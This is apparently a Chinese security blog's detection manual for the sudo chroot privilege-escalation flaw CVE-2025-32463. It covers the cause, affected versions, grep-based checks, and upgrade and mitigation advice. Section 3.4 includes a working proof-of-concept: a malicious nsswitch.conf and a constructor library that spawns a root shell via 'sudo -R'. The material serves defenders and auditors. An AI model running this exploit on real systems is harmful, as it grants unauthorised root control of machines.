 #  【必查漏洞】Sudo chroot 权限提升漏洞(CVE-2025-32463)检测手册  
安全狐  安全狐   2025-07-01 15:45  
  
## 1. 漏洞概述  
  
**CVE-2025-32463**  
 是 Sudo 工具中的一个本地权限提升漏洞，影响 **Sudo 1.9.14 至 1.9.17**  
 版本。该漏洞允许本地低权限用户通过滥用 chroot  
 功能绕过安全限制，以 root  
 权限执行任意代码。  
### 漏洞原理  
- Sudo 在处理 chroot  
 选项时，会在命令匹配阶段多次调用 chroot()  
，即使未配置相关规则。  
  
- 攻击者可利用 chroot  
 指向一个可控目录，并在其中放置恶意 nsswitch.conf  
 文件，导致 Sudo 加载恶意共享库（如 libnss_*.so  
），从而执行任意代码。  
  
- 漏洞根源在于 pivot_root()  
 和 unpivot_root()  
 函数在命令匹配阶段的错误调用逻辑。  
  
## 2. 受影响版本  
- **Sudo 1.9.14 - 1.9.17**  
（默认配置下均受影响）  
  
- **已验证受影响系统**  
：  
  
- Ubuntu 24.04.1（Sudo 1.9.15p5, 1.9.16p2）  
  
- Fedora 41 Server（Sudo 1.9.15p5）  
  
>   
> **注意**  
：Sudo ≤ 1.8.32（旧版）不受影响，因未实现 chroot  
 功能。  
  
## 3. 漏洞检测方法  
### 3.1 检查 Sudo 版本  
  
运行以下命令检查当前 Sudo 版本：  
```
sudo --version | head -n 1
```  
  
若版本在 **1.9.14 - 1.9.17**  
 之间，则可能受影响。  
### 3.2 检测是否存在 chroot 规则  
  
检查 /etc/sudoers  
 或 /etc/sudoers.d/  
 文件中是否包含 CHROOT=  
 或 runchroot=*  
 规则：  
```
grep -r "CHROOT=" /etc/sudoers /etc/sudoers.d/ 2>/dev/nullgrep -r "runchroot=" /etc/sudoers /etc/sudoers.d/ 2>/dev/null
```  
  
若存在相关规则，系统可能面临更高风险。  
### 3.3 检查日志中的 chroot 使用记录  
  
查看系统日志（如 /var/log/auth.log  
 或 /var/log/secure  
）中是否有 CHROOT=  
 记录：  
```
grep "CHROOT=" /var/log/auth.log /var/log/secure 2>/dev/null
```  
### 3.4 漏洞验证（PoC 测试）  
  
**警告**  
：此操作可能触发漏洞，仅限授权测试环境使用！非安专业人员请勿测试。  
1. 创建临时目录并编写恶意 nsswitch.conf  
：  
```
STAGE=$(mktemp -d /tmp/sudowoot.XXXXXX)mkdir -p $STAGE/woot/etcecho "passwd: /woot1337" > $STAGE/woot/etc/nsswitch.conf
```  
  
  
1. 编译恶意共享库：  
```
cat > $STAGE/woot1337.c <<EOF#include <stdlib.h>#include <unistd.h>__attribute__((constructor)) void woot(void) {  setreuid(0,0);  setregid(0,0);  chdir("/");  execl("/bin/bash", "/bin/bash", NULL);}EOFgcc -shared -fPIC -Wl,-init,woot -o $STAGE/libnss_/woot1337.so.2 $STAGE/woot1337.c
```  
  
  
1. 执行漏洞利用：  
```
sudo -R $STAGE/woot woot
```  
  
**预期结果**  
：若成功，将获得 root  
 shell。  
  
## 4. 修复建议  
1. **升级 Sudo**  
：安装 **Sudo 1.9.17p1 或更高版本**  
（已修复漏洞）。  
  
1. 下载地址：https://www.sudo.ws/security/advisories/chroot_bug  
  
1. **禁用 chroot 功能**  
（若无法立即升级）：  
  
1. 检查并删除 /etc/sudoers  
 中所有 CHROOT=  
 或 runchroot=*  
 规则。  
  
1. **监控日志**  
：持续监控 sudo  
 相关日志，检测异常 chroot  
 使用行为。  
  
## 5. 附录  
- Sudo 官方公告：https://www.sudo.ws/security/advisories/chroot_bug  
  
- CVE-2025-32463 漏洞详情：https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot  
  
**注意**  
：本手册仅供安全研究人员和系统管理员参考，未经授权禁止在真实环境中测试漏洞。  
  
